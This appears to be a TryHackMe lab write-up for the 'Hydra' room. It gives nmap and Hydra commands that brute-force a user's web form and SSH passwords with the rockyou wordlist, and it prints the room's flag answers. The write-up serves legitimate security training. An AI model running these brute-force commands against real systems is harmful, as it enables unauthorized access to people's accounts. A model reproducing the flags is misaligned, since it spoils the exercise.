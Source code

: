 ![Hydra Banner](https://i.imgur.com/kzeMRHz.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Cover.png" alt="Hydra Logo">
</p>

# Hydra

This guide contains the answer and steps necessary to get to them for the [Hydra](https://tryhackme.com/room/hydra) room.

### Using Hydra

In this task we will be using Hydra to brute force passwords from someones account. Two types will be covered here: SSH and HTTP forms.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

   We can do an nmap scan to find out which ports to use (or just navigate to the ip address in your browser).
   
   ```cmd
   sudo nmap -sS 10.10.111.109 -sV -sC
   ```
   
   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Nmap.png)
   
   ![Web Form](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Login_Page.png)
   
   To bruteforce a web form we need to use the `http-post-form` argument. First we must check the page source to find out if it uses `get` or `post.
   
   ![Web Page Source](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Web_Page_Source.png)
   
   Now we can put everything we need into the command.
   
   ```cmd
   hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.111.109 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 4
   ```
   
   1[Hydra Web Form](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Web_Page.png)
   
   Now we can log into the web page with our acquired credentials.
   
   ![Web Page Login](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Web_Page_Flag.png)

   ><details><summary>Click for answer</summary>THM{2673a7dd116de68e85c48ec0b1f2612e}</details>

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

   To crack her SSH password we use the following command:
   
   ```cmd
   hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.111.109 -t 4 
   ```
   
   ![Hydra SSH](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_SSH.png)
   
   Now we can log in with:
   
   ```cmd
   ssh molly@10.10.111.109
   ```
   
   ![SSH Login](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_SSH_Login.png)
   
   Looking through the folders we can find the flag.
   
   ![SSH Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_SSH_Flag.png)

   ><details><summary>Click for answer</summary>THM{c8eeb0468febbadea859baeb33b2541b}</details>

**Extra:** Interestingly, when going through the ubuntu user folder, we seem to come across a file with credentials and a flag similar to the first one.

![Discovery](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_SSH_Discovery.png)
